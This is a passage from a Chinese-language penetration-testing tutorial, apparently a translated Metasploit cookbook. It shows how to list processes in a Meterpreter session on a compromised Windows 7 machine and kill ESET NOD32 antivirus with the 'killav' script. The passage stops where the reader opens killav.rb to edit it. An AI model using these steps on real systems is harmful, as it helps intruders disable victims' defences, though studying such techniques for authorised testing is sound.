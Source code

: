 1.  现在我们拥有了主管理员权限。下一步将是运行`ps`命令，列出系统上所有正在运行的进程。我们将需要查看控制目标机器上运行的杀毒软件的那些进程（输出已经被缩短以适应）。

```
    PID Name User Path
    --- ---- ---- ----
    1060 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
    1096 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\system32\.
    1140 stacsv.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
    1152 dsmonitor.exe DARKLORD-PC\DARKLORD C:\Program Files\Uni.
    1744 egui.exe DARKLORD-PC\DARKLORD C:\Program Files\ESET\ESET NOD32 Antivirus\egui.exe
    1832 eset.exe NT AUTHORITY\SYSTEM C:\Program Files\ESET\ESET NOD32 Antivirus\eset.exe 
    ```

1.  从`Name`和`Path`列中，我们可以很容易地识别出属于杀毒软件实例的进程。在我们的情况下，有两个进程负责目标系统上的杀毒保护。它们是`egui.exe`和`eset.exe`。让我们看看如何使用 Metasploit 来终止这些进程。

## 工作原理

Meterpreter 提供了一个非常有用的脚本，名为`killav.rb`，可以用来终止目标系统上运行的杀毒软件进程，从而禁用它。让我们在运行 ESET NOD32 杀毒软件的 Windows 7 目标上尝试这个脚本。

```
meterpreter > run killav
[*] Killing Antivirus services on the target... 
```

`run`命令用于在 meterpreter 中执行 Ruby 脚本。一旦脚本执行完毕，我们可以再次检查目标上正在运行的进程，以确保所有杀毒软件进程都已被终止。如果没有杀毒软件进程在运行，那么意味着杀毒软件已经在目标机器上被暂时禁用，我们现在可以继续进行渗透测试过程。

但是如果进程仍在运行怎么办？让我们在下一个步骤中找到解决方案。

# 深入了解 killav.rb 脚本

继续我们之前的步骤，我们专注于如何使用`killav.rb`脚本在目标机器上终止运行的杀毒软件进程。但是，如果进程仍在运行，或者即使使用脚本后它们仍未被终止，会怎么样呢？这可能有两个原因。要么`killav.rb`没有在其终止列表中包括这些进程，要么杀毒软件进程正在作为服务运行。在这个步骤中，我们将尝试克服这些问题。所以让我们快速进入我们的步骤。

## 准备工作

我们将从上一个步骤结束的地方开始相同的 meterpreter 会话。我们已经使用了`killav.rb`脚本一次，但是杀毒软件进程仍在运行。我们可以使用`ps`命令查看正在运行的进程。

```
PID Name User Path
--- ---- ---- ----
1060 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
1096 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\system32\.
1140 stacsv.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
1152 dsmonitor.exe DARKLORD-PC\DARKLORD C:\Program Files\Uni.
1744 egui.exe DARKLORD-PC\DARKLORD C:\Program Files\ESET\ESET NOD32 Antivirus\egui.exe
1832 eset.ece NT AUTHORITY\SYSTEM C:\Program Files\ESET\ESET NOD32 Antivirus\eset.exe 
```

正如我们所看到的，即使使用了`killav.rb`脚本，这两个杀毒软件进程仍然存活。让我们先看一下`killav.rb`脚本。

## 如何操作

1.  要查看和编辑`killav.rb`脚本，请打开一个新的终端窗口，浏览到`/pentest/exploits/framework3/scripts/meterpreter`。

```
    root@bt: cd /pentest/exploits/framework3/scripts/meterpreter
    root@bt:/pentest/exploits/framework3/scripts/meterpreter# vim killav.rb 
    ```
